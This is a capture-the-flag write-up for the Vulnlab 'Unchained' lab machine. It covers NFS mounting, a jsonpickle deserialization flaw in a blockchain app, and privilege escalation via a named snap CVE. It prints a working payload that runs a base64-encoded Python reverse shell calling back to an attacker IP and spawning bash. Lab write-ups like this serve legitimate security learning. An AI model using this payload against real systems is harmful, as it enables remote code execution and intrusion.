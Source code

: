 ```yaml
---
title: "Vulnlab - Unchained [Medium]"
category: ctf-writeup
layout: post
---
```


We can first mount the exposed NFS folder called `backup` to local folder called `mounted`.

```
sudo mount -t nfs -o nfsvers=3 10.10.89.250:/var/nfs/backup ./mounted -o nolock
```

We can see the source code is a project that is a result from this course:
- [https://www.udemy.com/course/build-your-own-proof-of-stake-blockchain](https://www.udemy.com/course/build-your-own-proof-of-stake-blockchain)

Upon reviewing the code that we got from the mount, we can see that the `/transaction` path that tries to `decode` the value of the `transaction`


![](/assets/images/Pasted image 20240229101409.png)
Then it goes into the `BlockchainUtils.decode` which has the following code:

![](/assets/images/Pasted image 20240229101422.png)
It is notable that the `jsonpickle` direct decoding can be vulnerable to deserialization, so I've crafted the following payload:

```
{
"transaction": "{\"py\/object\": \"__main__.Transaction\", \"syl\": {\"py\/reduce\": [{\"py\/type\": \"subprocess.Popen\"}, {\"py\/tuple\": [{\"py\/tuple\": [\"python3\", \"-c\", \"import base64;exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjguMC4xMDciLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIik='))\"]}]}]}}"
}
```

I did this payload from scratch, but I found an article that has much more efficient payload here:
- [https://medium.com/@0xbughunter/de-serialization-sometimes-pickle-can-be-too-sour-45c930e18b8e](https://medium.com/@0xbughunter/de-serialization-sometimes-pickle-can-be-too-sour-45c930e18b8e)

Nonetheless we can see that we got a connection back.

![](/assets/images/Pasted image 20240229165506.png)

After that and after a bit of enumeration we can see that `snap` is in the user folder which kind-a hints that. The vulnerability is `CVE-2021-44731`, we can find a PoC on GitHub, after that we are `root`.